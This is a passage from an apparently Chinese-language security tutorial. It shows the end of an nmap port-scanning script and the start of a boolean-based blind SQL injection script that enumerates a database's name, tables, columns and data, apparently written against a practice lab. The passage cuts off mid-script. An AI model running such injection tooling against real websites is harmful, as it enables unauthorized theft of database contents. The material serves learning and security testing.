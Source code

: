 ```python
		print(e)


if __name__ == '__main__':
	parser = optparse.OptionParser('usage: python %prog -i ip \n\n'
                                    'Example: python %prog -i 192.168.1.1\n')
	# 添加目标IP参数-i
	parser.add_option('-i','--ip',dest='targetIP',default='192.168.1.1',type='string',help='target ip address')
	options,args = parser.parse_args()
	# 将IP参数传递给NmapScan函数
	NmapScan(options.targetIP)
```
![](https://img-blog.csdnimg.cn/20201224232926110.png)

## 漏洞检测与防御
这里就记录sql注入吧，其实sql盲注脚本我也收集过的：[sql注入脚本](https://www.cnblogs.com/bmth/p/13583833.html)
### SQL盲注漏洞
~~原理就懒得废话了~~
基于布尔型SQL盲注检测：
```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests
import optparse

# 存放数据库名变量
DBName = ""
# 存放数据库表变量
DBTables = []
# 存放数据库字段变量
DBColumns = []
# 存放数据字典变量,键为字段名，值为字段数据列表
DBData = {}
# 若页面返回真，则会出现You are in...........
flag = "You are in..........."

# 设置重连次数以及将连接改为短连接
# 防止因为HTTP连接数过多导致的 Max retries exceeded with url
requests.adapters.DEFAULT_RETRIES = 5
conn = requests.session()
conn.keep_alive = False


# 盲注主函数
def StartSqli(url):
	GetDBName(url)
	print("[+]当前数据库名:{0}".format(DBName))
	GetDBTables(url,DBName)
	print("[+]数据库{0}的表如下:".format(DBName))
	for item in range(len(DBTables)):
		print("(" + str(item + 1) + ")" + DBTables[item])
	tableIndex = int(input("[*]请输入要查看表的序号:")) - 1
	GetDBColumns(url,DBName,DBTables[tableIndex])
	while True:
		print("[+]数据表{0}的字段如下:".format(DBTables[tableIndex]))
		for item in range(len(DBColumns)):
			print("(" + str(item + 1) + ")" + DBColumns[item])
		columnIndex = int(input("[*]请输入要查看字段的序号(输入0退出):"))-1
		if(columnIndex == -1):
```